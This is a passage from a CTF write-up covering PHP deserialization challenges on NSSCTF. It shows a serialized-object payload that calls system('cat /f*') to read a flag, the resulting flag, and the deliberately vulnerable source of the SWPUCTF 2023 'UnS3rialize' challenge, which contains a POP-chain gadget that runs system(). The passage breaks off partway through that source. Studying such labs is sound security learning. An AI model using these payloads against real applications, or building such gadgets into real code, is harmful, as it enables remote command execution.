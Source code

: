 pyload

```
nss=O:3:"lyh":2:{s:2:"lt";s:6:"system";s:3:"lly";s:7:"cat /f*";}
```

flag

```
NSSCTF{34699c15-53cd-4e22-b1d9-dec8fc5aa519}
```

#### [SWPUCTF 2023 秋季新生赛]UnS3rialize

https://www.nssctf.cn/problem/4500

**题目**

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

class NSS
{
    public $cmd;

    function __invoke()
    {
        echo "Congratulations!!!You have learned to construct a POP chain<br/>";
        system($this->cmd);
    }

    function __wakeup()
    {
        echo "W4keup!!!<br/>";
        $this->cmd = "echo Welcome to NSSCTF";
    }
}


class C
{
    public $whoami;

    function __get($argv)
    {
        echo "what do you want?";
        $want = $this->whoami;
        return $want();
    }
}

class T
{
    public $sth;

    function __toString()
    {
        echo "Now you know how to use __toString<br/>There is more than one way to trigger";
        return $this->sth->var;
    }
}

class F
{
    public $user = "nss";
```